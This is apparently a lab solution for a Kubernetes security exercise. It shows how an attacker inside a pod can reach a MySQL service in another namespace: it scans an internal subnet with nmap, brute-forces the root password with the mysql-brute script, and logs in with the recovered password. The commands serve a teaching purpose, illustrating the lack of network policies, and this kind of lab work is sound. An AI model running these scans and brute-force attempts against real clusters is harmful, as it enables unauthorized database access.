





# Attacking applications in different namespaces in Kubernetes cluster - Solution

* Get pod details and login to the `net-tools` pod using below command.

```bash
export NET_TOOLS_POD=$(kubectl get pods --selector app=net-tools -o jsonpath="{.items[0].metadata.name}")
kubectl exec -it $NET_TOOLS_POD bash
```



* As MySQL runs on port 3306 by default, we can scan the IP range for this port

```bash
nmap -n -Pn -p3306 --open -sS -T5 10.36.4.0/24
```



* Once we have discovered the MySQL service, we can brute force the credentials to login into the server. We can run a brute force attack using nmap and its scripting engine.

```bash
echo root > users.txt
nmap --script mysql-brute 10.36.4.30 -p3306 -T4 --script-args "userdb=users.txt"
```



* Once the credentials are discovered, we can access the MySQL instance with obtained password within the cluster network in different namespace

```bash
mysql -u root -psecret -h 10.36.4.30
```




* Verify the pods, svc available in the `database` namespace

```bash
kubectl get ns
kubectl get all -n database
```



### Refernces

* [https://ahmet.im/blog/kubernetes-network-policy/](https://ahmet.im/blog/kubernetes-network-policy/)
* [Google Cloud Cluster CIDR](https://cloud.google.com/kubernetes-engine/docs/how-to/flexible-pod-cidr)